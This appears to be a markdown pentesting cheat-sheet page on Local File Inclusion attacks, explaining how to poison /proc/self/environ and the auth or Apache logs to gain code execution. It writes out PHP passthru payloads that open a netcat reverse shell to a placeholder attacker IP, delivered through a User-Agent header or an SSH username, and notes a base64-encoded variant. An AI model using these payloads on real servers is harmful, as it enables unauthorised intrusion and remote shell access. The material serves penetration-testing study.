

# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-exploitation.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```




When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@$ip 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@$ip 
```

Now just get a netcat listener in your kali attacker machine.